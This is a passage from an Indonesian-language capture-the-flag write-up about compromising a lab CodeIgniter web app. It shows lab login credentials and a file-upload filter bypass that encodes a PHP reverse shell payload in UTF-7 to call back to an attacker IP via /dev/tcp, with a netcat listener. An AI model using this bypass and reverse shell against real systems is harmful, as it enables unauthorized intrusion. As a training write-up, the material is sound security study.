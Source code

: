 ```bash

#--------------------------------------------------------------------
# LOGGER
#--------------------------------------------------------------------

# logger.threshold = 4
```

`info.asp`:

```php
<?php phpinfo(); ?>
```

- Pada file `.env` terdapat kredensial database, tapi karena port 3306 tidak terbuka, maka dari itu, file tersebut tidak berguna untuk sekarang (mungkin ketika berhasil mendapatkan shell).
- Pada file `info.asp` berisikan fungsi `phpinfo()` untuk menampilkan informasi terkait versi PHP yang digunakan.

### Gaining Access w/ PHP Reverse Shell

- Setelah berhasil login menggunakan username: `jay_payakumbuah` dengan password: `Lzj*7BL%#fMhq`, kemudian saya coba lihat isi di dalam webnya, ternyata ada satu fitur untuk upload sebuah dokumen yang bisa dimanfaatkan sebagai celah ***arbitrary file upload***.
- Saya coba analisis lagi source code PHP yang tertera di folder `yourspace` sebelumnya.
- Setelah penantian cukup panjang, saya menyadari bahwa fitur tersebut pasti ada di sebuah **Controllers**, detailnya ada di file `MedicalController.php` (*lebih lengkapnya baca terkait arsitektur folder MVC pada framework CodeIgniter*).
- Terdapat limitasi pada fungsi upload file, yaitu:
  - Jika file yang di upload berekstensi **.php, .pht, atau .phtml**, maka terdeteksi sebagai malicious file.
  - Jika ada tag pembuka php (`<?`) di dalam konten yang di upload, maka terdeteksi juga sebagai malicious file.

![Moonstone-08](/images/hacktrace-ranges_boot2root3-08.png)

- Untuk membypass hal tersebut, saya coba baca lagi informasi `http://10.1.2.232/info.asp` untuk melihat apakah ada celah yang bisa dimanfaatkan untuk bypass limitasi tadi.
- Ternyata, di bagian `zend.script_encoding` bisa juga menggunakan `UTF-7`, yang mana memungkinkan untuk untuk bisa mendapatkan reverse shell asal payloadnya dalam format `UTF-7`. Ini payload lengkapnya:

```php
+ADw-?php exec("bash -i +AD4-& /dev/tcp/10.18.200.127/4444 0+AD4-&1") ?+AD4-
```

- Untuk tanda `<` di-encode ke `UTF-7` menjadi: `+ADw-`. Dan tanda `>` menjadi: `+AD4-` (lebih lengkapnya baca artikel berikut: https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python).
- Tetapi, setelah coba di upload masih gagal, karena kenapa ? karena by default ekstensinya adalah `.asp` (agak menjengkelkan sih ini wkwk). Hal itu dibuktikan dengan fungsi `phpinfo()` yang tetap berjalan meskipun ekstensi filenya `.asp`.
- Oke fix upload dan jangan lupa untuk listen ke port `4444` menggunakan `nc`.
